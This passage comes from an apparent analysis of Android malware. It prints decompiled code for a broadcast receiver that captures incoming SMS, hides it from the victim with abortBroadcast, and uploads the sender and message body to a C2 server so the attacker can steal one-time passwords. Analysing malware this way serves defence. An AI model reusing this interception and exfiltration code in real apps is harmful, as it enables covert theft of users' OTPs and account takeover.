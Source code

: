 ```cs
                    b.m(App.m()).a(jSONObject0.toString()); // save logs
                }
                catch(Exception unused_ex) {
                }
            }
```

## Intercept SMS

Then the malware will intercept the coming SMS. This makes the received SMS hidden from the victim. This useful for the attacker to get OTP.

```cs
 public void onReceive(Context context0, Intent intent0) {
        try {
            if(((aa.m().l.equals("yes")) || (this.m(App.m()))) && (intent0.getAction().equals("android.provider.Telephony.SMS_RECEIVED"))) {
                Bundle bundle0 = intent0.getExtras();
                if(bundle0 != null) {
                    Object[] arr_object = (Object[])bundle0.get("pdus");
                    if(arr_object != null) {
                        int v = 0;
                        while(v < arr_object.length) {
                            SmsMessage smsMessage0 = this.m(arr_object[v], bundle0);
                            ++v;
                            this.b = new StringBuilder().insert(0, smsMessage0.getDisplayOriginatingAddress()).append(":").append(smsMessage0.getDisplayMessageBody()).toString();
                        }

                        aa aa0 = aa.m();
                        aa0.j = this.b;
                        JSONObject jSONObject0 = new JSONObject();
                        jSONObject0.put("smsLogs", this.b);
                        c.m().m(jSONObject0); // upload to C2 server
                    }

                    this.abortBroadcast();
                }
            }
        }
        catch(Exception unused_ex) {
        }
    }
}

```

## Commands

This commands will be received from C2 server to the victim.
